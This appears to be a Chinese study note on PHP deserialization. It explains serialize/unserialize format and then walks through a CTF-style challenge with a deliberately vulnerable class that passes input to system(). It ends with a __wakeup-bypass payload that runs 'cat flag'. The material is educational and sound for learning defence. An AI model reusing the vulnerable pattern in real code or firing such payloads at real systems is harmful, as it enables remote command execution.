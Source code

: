 ```yaml
---
title: PHP反序列化
tags:
    - web
    - php
    - serialize
    - review
icon: 'tabler:binary-tree-filled'
createTime: 2025/02/05 11:18:54
permalink: /security/unserialize/
---
```


## 概念

要了解`反序列化（unserialize）`，就应该先了解`序列化（serialize）`

> 序列化是将数据结构或对象转换成一种特定格式的字节序列的过程。

乍一看还是有点抽象，我们可以通过下面这个示例来大致理解一下

```php
<?php
highlight_file(__FILE__);
error_reporting(0); 
class Student {
    public $name;
    public $age;
    public $scores;

    public function __construct($name, $age, $scores) {
        $this->name = $name;
        $this->age = $age;
        $this->scores = $scores;
    }

    public function __toString() {
        return "Name: {$this->name}, Age: {$this->age}, Scores: " . implode(', ', $this->scores);
    }
}

// 创建一个 Student 对象
$student = new Student("张三", 20, [85, 90, 78]);

// 序列化对象
$serializedStudent = serialize($student);
echo "序列化后的字符串:";
echo $serializedStudent;

echo '<br>';

// 反序列化对象
$unserializedStudent = unserialize($serializedStudent);
echo "反序列化后的对象:";
echo $unserializedStudent;
?>
```


> [!tip]
> `__toString() 的作用`
>
>
> __toString( ) 是 PHP 中的一个魔术方法（Magic Method），它是 PHP 面向对象编程中的一个重要特性。__toString( ) 的作用是定义一个类在被转换为字符串时的行为。当尝试将一个对象直接用于字符串上下文（例如回显、字符串拼接等）时，PHP 会自动调用该对象的 __toString( ) 方法。（例如上述代码中的`serialize($student)`）


得到的输出结果如下

![](img/4.png)

```serialize
O:7:"Student":3:{s:4:"name";s:6:"张三";s:3:"age";i:20;s:6:"scores";a:3:{i:0;i:85;i:1;i:90;i:2;i:78;}}
```

```unserialize
Name: 张三, Age: 20, Scores: 85, 90, 78
```


分析序列化得到的字符串，它的组成大致可以这样理解：

> **1. 对象标识**  O:长度:"类名":属性数:{...}

`O`代表`Student`是一个Obejct(对象)，字符串长度为`7`，有`3`个属性：name,age,scores

> **2. 成员属性**  键类型:键长度:"键名";值类型:值...

`s`即string，`i`即integer

## 实战

```php
<?php
highlight_file(__FILE__);
error_reporting(0); 

class begin{
    public $unf01d="beginning";
    public function cmd($a){
        system($a);
    }
    public function __wakeup(){
        $this->unf01d="end";
    }
    public function __destruct(){
        $this->cmd($this->unf01d);
    }
}
$cmd=$_GET['cmd'];
unserialize($cmd);
?>
```

> [!tip]
> system( )与exec( )类似，也可以调用系统指令
>
> `__wakeup()`是一个魔术方法，在反序列化的时候会优先调用它


而我们要起到我们的目的，就必须绕开__wakeup( )

> [!warning]
> 此绕过方法只适用于部分版本的PHP
>
> PHP5 < 5.6.25 
>
> PHP7 < 7.0.10

如果序列化字符串中表示对象属性个数的值大于真实的属性个数时，wakeup()的执行会被跳过

::: code-tabs

@tab crack.php

```php
<?php
class begin {
    public $unf01d = ""; //目标指令
}

$payload = serialize(new begin());
echo $payload;
?>

```
:::

由此构造出payload,将`1`改为`2`

![](img/7.png)

```payload
O:5:"begin":2:{s:6:"unf01d";s:8:"cat flag";}
```

上传就可以得到flag

![](img/6.png)


## 总结

之后还将加深对魔术方法调用顺序的理解，以及学习其他绕过__wakeup()的方法

